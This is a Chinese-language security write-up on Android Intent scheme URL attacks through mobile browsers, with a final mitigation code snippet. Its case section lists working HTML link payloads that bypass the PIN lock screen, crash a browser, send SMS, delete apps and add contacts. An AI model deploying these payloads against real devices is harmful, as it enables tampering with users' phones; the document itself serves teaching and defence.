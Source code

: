 # 一.  Intent scheme URL attack

---

**Author:瘦蛟舞**

**Create:20140824**

## 1.1  Android Intents with Chrome

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：`<iframe src="paulsawesomeapp://page1"> </iframe>`。此方法适用version 18或者更早版本。其他android浏览器也适用。

这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的`intent:`语法。

### 1.1.1  基本语法

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过Intent Extras传递额外信息。
intent-based URI基本语法如下：

```
intent:
   HOST/URI-path // Optional host
   #Intent;
      package=[string];
      action=[string];
      category=[string];
      component=[string];
      scheme=[string];
   end;
```

语法细节见源码Android source

![](img/parse1.png)

![](img/parse2.png) 
 
### 1.1.2  简单举例

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

```
intent:
   //scan/
   #Intent;
      package=com.google.zxing.client.android;
      scheme=zxing;
   end;
```

设置a标签发href属性：

```
<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>
```

Package和host定义在配置文件中Android Zxing Manifest

### 1.1.3  注意事项

如果调用activity的intent包含extras，同样可以包含这些。(不支持序列化)

Activity只有配置了category filter才有被android.intent.category.BROWSABLE通过这种方式在浏览器中打开，因为这样表明其是安全的。

### 1.1.4  另请参阅

* Android Intents and Intent Filters
* Android Activities

## 1.2  利用思路
 	
在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。
然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

## 1.3  Intent scheme URL的用法

看一下Intent Scheme URL的用法。

```
<script>location.href = “intent:mydata#Intent;action=myaction;type=text/plain;end”</script>  
```

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

```java
Intent intent = new Intent("myaction");  
intent.setData(Uri.parse("mydata"));  
intent.setType("text/plain");  
```

再看一个例子：

```
intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end  
```

上面的语句，等价于如下Java代码：

```java
Intent intent = new Intent("myaction");  
intent.setData(Uri.pase("//foobar/"));  
intent.putExtra("xyz", "123");  
intent.putExtra("abc", 678);  
```

其中S代表String类型的key-value，i代表int类型的key-value。
源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

## 1.4  Intent scheme URI的解析及过滤

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

* 利用Intent.parseUri解析uri，获取原始的intent对象；
* 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
* 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

	Intent.parseUri()

绕过

    Intent.setComponent(null);

使用sel;

## 1.5  乌云案例

http://www.wooyun.org/bugs/wooyun-2014-073875 
http://www.wooyun.org/bugs/wooyun-2014-067798 

某浏览器对此支持非常好

```javascript
	<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
	   设置绕过Pin码（android 3.0-4.3）
	</a><br>
```

![](img/pincode.png)

```JavaScript
<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
    qq浏览器崩溃
</a><br>

<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
    打开原生浏览器
</a><br>

<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
   发送短信
</a><br>

<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
   打开相机
</a><br>

<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
   删除应用
</a><br>

<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
    添加联系人
</a><br>
```

## 1.6  修复

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

```java
// convert intent scheme URL to intent object  
Intent intent = Intent.parseUri(uri);  
// forbid launching activities without BROWSABLE category  
intent.addCategory("android.intent.category.BROWSABLE");  
// forbid explicit call  
intent.setComponent(null);  
// forbid intent with selector intent  
intent.setSelector(null);  
// start the activity by the intent  
context.startActivityIfNeeded(intent, -1);  
```
## 1.7 参考

http://www.mbsd.jp/Whitepaper/IntentScheme.pdf

http://blog.csdn.net/l173864930/article/details/36951805
